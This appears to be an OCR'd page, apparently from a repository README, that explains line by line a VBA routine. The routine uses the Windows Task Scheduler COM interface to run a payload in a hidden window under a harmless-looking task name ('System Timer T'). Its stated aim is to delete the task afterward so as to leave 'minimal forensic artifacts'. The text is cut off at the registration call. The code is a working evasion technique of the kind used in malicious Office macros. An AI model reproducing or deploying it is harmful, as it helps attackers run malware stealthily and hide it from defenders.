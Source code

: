 #### Function Purpose

It:

- **Creates a temporary scheduled task** using the `Schedule.Service` COM object.
- **Executes the desired payload/program** (e.g., an `.exe` or script).
- **Deletes the task after execution**, leaving minimal forensic artifacts.

#### Code Explanation

```
Dim service As Object
Dim rootFolder As Object
Dim taskDefinition As Object
Dim Action As Object
```

Declares objects to interact with **Windows Task Scheduler** via COM:

- `service`: The main Task Scheduler service.
- `rootFolder`: Points to the root folder where tasks are stored.
- `taskDefinition`: Blueprint/template for the task.
- `Action`: Describes what the task will do (e.g., run a program).

```
Set service = CreateObject("Schedule.Service")
service.Connect
```

Creates and connects to the **Task Scheduler COM interface**.

```
Set rootFolder = service.GetFolder("\")
```

Gets the **root task folder** (typically where user-defined tasks go).

```
Set taskDefinition = service.NewTask(0)
```

Creates a **blank task definition** (like a task template).

```
Set Action = taskDefinition.Actions.Create(0) ' 0 = Exec action
Action.Path = targetPath
Action.Arguments = ""
Action.HideAppWindow = True
```

- Defines a task **action** of type `Exec` (which runs an executable).
- `Action.Path = targetPath`: Path to the program you want to run (e.g., `"calc.exe"` or `"C:\Tools\payload.exe"`).
- `HideAppWindow = True`: Runs **invisibly**, with no GUI window shown (stealthy).

```
Call rootFolder.RegisterTaskDefinition("System Timer T", taskDefinition, 6, , , 3)
```

This **registers and runs** the task:
